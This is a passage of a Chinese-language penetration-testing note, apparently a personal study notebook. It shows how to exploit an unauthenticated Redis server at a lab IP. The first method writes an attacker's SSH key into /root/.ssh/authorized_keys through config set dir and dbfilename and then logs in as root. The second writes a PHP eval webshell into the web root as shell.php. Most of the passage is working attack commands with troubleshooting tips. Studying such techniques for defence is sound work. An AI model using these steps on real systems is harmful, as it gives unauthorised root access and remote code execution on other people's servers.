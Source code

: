 ![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571146976-249054a6-2b1a-42f4-8732-ed1b2bb195f9.png#clientId=u9e20ed45-5375-4&from=paste&height=125&id=u485e9bbd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=167&originWidth=419&originalType=binary&ratio=1&size=35224&status=done&style=none&taskId=u48d2d774-f8f2-43d8-9855-ed7e5c288c1&width=314)

```bash
# 连接redis，设置路径和保存的文件名，将内存变量导入磁盘文件
redis-cli -h 192.168.210.177
config set dir /root/.ssh/
config get dir
config set dbfilename authorized_keys
save
```
**踩坑：**

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571260191-07c47d16-07d9-4f9b-99b4-f8893b7e12e0.png#clientId=u9e20ed45-5375-4&from=paste&id=u94e7e5c7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=63&originWidth=468&originalType=binary&ratio=1&size=19169&status=done&style=none&taskId=ua92ec418-ee0d-44d9-9bbd-e922ff37d14)  

这里报错的意思是靶机没有这个文件目录， 原因是 `.ssh` 是记录密码信息的文件夹，如果没有用root用户登录过的话，就没有 `.ssh` 文件夹，所以我们在靶机上执行下面这条命令即可（也可以手动创建 `.ssh` 目录）：
```bash
ssh localhost
```

此时，可成功导入：

![image.png](https://cdn.nlark.com/yuque/0/2021/png/22669825/1637571417359-754f4557-6886-4fe9-8c15-276a9d4dcc07.png#clientId=u9e20ed45-5375-4&from=paste&id=u387911ca&margin=%5Bobject%20Object%5D&name=image.png&originHeight=116&originWidth=486&originalType=binary&ratio=1&size=29778&status=done&style=none&taskId=u25af95b9-7e1b-4f72-b56a-f911a829b33)

（3）利用私钥成功登录redis服务器
```bash
ssh -i id_rsa root@192.168.210.177
或者
ssh 192.168.210.177
```

<img width="725" alt="image" src="https://github.com/reidmu/sec-note/assets/84888757/8bbcd28d-6767-44d6-ac7f-0af5e05ee783">

<img width="654" alt="image" src="https://github.com/reidmu/sec-note/assets/84888757/64d7e8b1-8360-401c-8e27-d40fcf11e891">

**坑点：**
目标主机必须开启了密钥登录才能利用。
ssh第一次连接时要加上 -o StrictHostKeyChecking=no，不然可能一直连不上。
`ssh  -o StrictHostKeyChecking=no x.x.x.x`

### 4.2.3 网站绝对路径写 Webshell
条件：需要找到网站根目录的路径。

参考链接：

- [https://www.hackersb.cn/Linux/153.html](https://www.hackersb.cn/Linux/153.html)

```bash
config set dir /var/www/html/
//切换目录到网站的根目录

set x "\n\n\n<?php phpinfo();?>\n\n\n"
//写入恶意代码到内存中(1)

set xx "\n\n\n<?php @eval($_POST['cmd']);?>\n\n\n"
//写入恶意代码到内存中(2)

config set dbfilename shell.php
//在磁盘中生成木马文件

save
//将内存之中的数据导出到磁盘文件
```

